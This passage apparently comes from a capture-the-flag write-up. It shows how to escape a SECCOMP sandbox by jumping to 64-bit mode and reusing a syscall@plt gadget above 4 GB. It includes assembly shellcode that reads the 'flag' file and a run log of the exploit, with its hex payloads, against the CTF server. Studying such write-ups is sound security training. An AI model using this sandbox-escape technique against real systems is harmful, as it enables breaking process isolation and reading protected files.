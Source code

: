 Once in 64-bit mode, we can bypass SECCOMP `instruction_pointer` rule by executing pre-existing gadgets located above 4 GBytes.
One of the available gadgets is `syscall@plt` from the sandbox binary:
```
0000000000000ce0 <syscall@plt>:
 ce0:   ff 25 9a 22 20 00       jmp    QWORD PTR [rip+0x20229a]        # 202f80 <syscall@GLIBC_2.2.5>
```

Using this gadget we can construct following code to read `flag` file:
```
        hijack_64:
            movabs  rax, 0x10000001e            /* address of kernel subroutine in kernelland entry page */
            mov     rbp, [rax]
            sub     rbp, 0x760                  /* move back to syscall@plt */

            /* open(pathname, O_RDONLY) */
            mov     rdi, __NR_open
            lea     rsi, [rip + pathname]
            mov     rdx, O_RDONLY
            call    syscall_gadget

            /* read(rax, rsp, 0x100) */
            mov     rdi, __NR_read
            mov     rsi, rax
            mov     rdx, rsp
            mov     rcx, 0x100
            call    syscall_gadget

            /* write(1, rsp, rax) */
            mov     rdi, __NR_write
            mov     rsi, 1
            mov     rdx, rsp
            mov     rcx, 0x100
            /* fall-through */
        syscall_gadget:
            push    rbp
            ret

        pathname:
           .asciz  "flag"
```

Running full exploit against CTF server gives the flag:
```
$ ./exploit.py
[+] Opening connection to sandbox-compat.ctfcompetition.com on port 1337: Done
[DEBUG] Received 0x29 bytes:
    'beef0000-bef00000 rw-p 00000000 00:00 0 \n'
[DEBUG] Received 0x73 bytes:
    'dead0000-dead1000 r-xp 00000000 00:00 0 \n'
    'fffff000-100001000 r-xp 00000000 00:00 0 \n'
    '[*] gimme some x86 32-bit code!\n'
...
[DEBUG] Sent 0x24 bytes:
    00000000  bc 00 00 f0  be 81 ec 00  02 00 00 fd  6a 00 68 24  │····│····│····│j·h$│
    00000010  00 ad de bf  02 00 00 00  8d 74 24 08  31 c0 48 c1  │····│····│·t$·│1·H·│
    00000020  e0 0c 50 c3                                         │··P·││
    00000024
[DEBUG] Sent 0x66 bytes:
    00000000  48 b8 1e 00  00 00 01 00  00 00 48 8b  28 48 81 ed  │H···│····│··H·│(H··│
    00000010  60 07 00 00  48 c7 c7 02  00 00 00 48  8d 35 3f 00  │`···│H···│···H│·5?·│
    00000020  00 00 48 c7  c2 00 00 00  00 e8 31 00  00 00 48 c7  │··H·│····│··1·│··H·│
    00000030  c7 00 00 00  00 48 89 c6  48 89 e2 48  c7 c1 00 01  │····│·H··│H··H│····│
```